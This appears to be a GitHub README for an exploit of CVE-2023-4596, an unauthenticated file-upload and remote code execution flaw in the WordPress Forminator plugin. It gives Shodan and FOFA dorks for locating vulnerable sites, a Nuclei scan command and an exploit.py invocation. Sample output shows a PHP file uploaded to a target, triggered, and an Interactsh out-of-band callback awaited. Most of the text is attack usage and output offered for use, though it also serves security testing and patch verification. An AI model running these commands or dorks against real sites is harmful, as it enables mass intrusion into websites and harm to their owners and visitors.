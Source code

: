 # CVE-2023-4596 
![](https://img.shields.io/static/v1?label=Product&message=Wordpress&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Forminator%20<=%201.24.6&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Command%20Execution&color=red)

More information see [here.](https://securityonline.info/cve-2023-4596-critical-wordpress-plugin-forminator-flaw-affects-over-400k-sites/)

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/pull/8118/files)

```
nuclei -target <target> -t CVE-2023-4596.yaml
```

- Shodan dork:
```
http.html:"/wp-content/plugins/forminator"
```
- FOFA dork:
```
body="/wp-content/plugins/forminator"
```
### Usage
```
python3 exploit.py -v -u https://target-IP/?p=7
```
```
  [+] Vulnerable version found: 1.24.6
  [+] Sending payload to target
  [+] Successful file upload!

Uploaded File Location: http://target-IP/wp-content/uploads/2023/08/QotTkAFBsf.php

  [+] Sending request to uploaded file...
  [+] Successfully triggered the uploaded file!
  [+] Check Interactsh for an incoming request.
```

